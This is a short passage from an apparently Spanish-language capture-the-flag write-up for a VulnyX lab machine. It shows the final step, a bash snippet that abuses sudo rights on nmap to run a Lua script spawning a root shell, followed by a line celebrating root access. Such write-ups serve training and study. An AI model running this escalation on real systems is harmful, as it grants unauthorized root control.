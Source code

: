 ```bash
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF
```

![](/assets/images/VULNYX/Hat-Vulnyx/root.webp)

Y ya somos root y hemos pwneado la máquina!

![](/assets/images/VULNYX/Hat-Vulnyx/gif.gif)